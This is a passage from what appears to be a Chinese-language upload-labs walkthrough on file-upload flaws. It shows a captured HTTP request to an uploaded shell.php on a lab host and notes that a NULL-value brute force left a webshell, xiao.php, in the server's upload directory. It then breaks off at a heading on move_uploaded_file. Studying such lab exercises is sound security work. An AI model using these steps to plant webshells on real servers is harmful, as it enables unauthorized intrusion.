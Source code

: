 然后抓取访问 shell.php 的数据包：

```http
GET /upload/shell.php HTTP/1.1
Host: vul.xps.com:30009
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

依然使用 NULL 空值爆破：

![](imgs/16036140058678.png) 

 

最后成功在服务器的 upload 目录下生成 xiao.php 里的内容就是一个标准的webshell：

![](imgs/16036153403524.png) 

# move_uploaded_file 缺陷

这一题取材于 upload-labs 后面新增的题目：
